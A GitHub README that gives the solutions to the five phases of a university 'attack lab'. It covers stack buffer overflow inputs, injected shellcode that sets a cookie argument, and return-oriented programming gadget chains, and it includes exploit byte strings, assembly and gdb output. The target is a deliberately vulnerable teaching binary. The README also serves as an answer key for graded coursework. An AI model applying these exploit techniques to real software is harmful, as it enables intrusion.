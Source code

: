 # attack_lab_solution

## Preface
To run this lab program, you should use the command `./ctarget -q` instead of `./ctarget` since there's no grading server.

## Phase 1
This phase is so easy and it just helps you to get familiar with this lab. You can choose to use the command objdump or just use gdb to solve this lab.
One way is to use the command objdump and then you get the corresponding source code of getbuf() and touch1() function:
``` asm00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop

00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40

```
It's clear that the address of touch1 should be 0x4017c0. Then you get the unique key to solve this problem. You also find that the command `sub $0x28, %rsp` allocates 40 bytes(0x28 = 40 in decimal). Then you just need to use some random bytes to fill up these 40 bytes and combine it with the address. 
It should be mentioned that you should know whether your system is little-endian or not, it decides the order of your answer. On my little-endian system, the answer could be 
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00 
```

## Phase 2
We use the similar method to solve phase 2.
Firstly, let's have a look at the touch2 function, 
```
void touch2(unsigned val) {
  vlevel = 2;
  /* Part of validation protocol */ 
  if (val == cookie) {
  printf("Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  } else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}
```
We know that the first argument is stored in the %rdi register, so we need to inject into the code to change the value of this register. 

We use the following code to change the value of %rdi
```
movq $0x59b997fa, %rdi
pushq $0x4017ec
retq
```
Note: the value of the cookie depends on your problem version.
We save the file and name it after phase2.s
then we use the command `gcc -c phase2.s` and `objdump -d phase2.o` to find the byte code 
```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3
```
Then similarly, we expand the byte code into 40 bytes, and let the jump address to be the address of rsp, which we can get by using gdb:
```
(gdb) until *0x4017b4
Type string:vsiuiusiugsiugifnsifsnfgnslkfsifnlisfn

Breakpoint 2, getbuf () at buf.c:16
16	in buf.c
(gdb) x/s $rsp
0x5561dc78:	"vsiuiusiugsiugifnsifsnfgnslkfsifnlisfn"
```
Here, we specify the jump address to be the address of rsp, which is also the address of the byte code we enter above. So the return address of getbuf will be changed. Then we accomplish the injection. 

## Phase 3
In phase3, we pass the address of the string as the argument. We can construct the solution based on phase2. Rather than moving the cookie directly in the assembly code, we pass the address of cookie this time. 

``` asm
movq $0x5561dca8, %rdi
pushq $0x4018fa
retq
```
Then we briefly talk about this constant. 0x5561dca8 = 0x5561dc78 + 0x30, where 0x5561dc78 is what we use in the phase 2(rsp). We use this 0x30 because of our structure of the final solution. We put the cookie string at the end of the byte code. To be more specific, 

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 
35 39 62 39 39 37 66 61
00

```
35 39 62 39 39 37 66 61 is the ascii byte code of our cookie string, and 00 is the sign used in C to indicate the end of a string. The other part is similar to what we talk about in phase2. 


## Phase 4 
Unlike the previous case, we use a technique called return of programming to conduct the attacking. Why? Since the protection 
makes it impossible to predict the position of stack frame pointers(stack randomization) and also prevent the injection code from running.

In this part, we find the gadget from the gadget farm, and it's not difficult to find the instruction 58 90 c3
```
popq $rax
nop
ret
```
and also 48 89 c7 c3
``` 
movq $rax, $rdi
ret
```

so we construct the solution as follows:
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00

```

## Phase 5
I don't understand this part, so just the paste the answer here
```
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
06 1a 40 00 00 00 00 00
d8 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 35
39 62 39 39 37 66 61 00
```
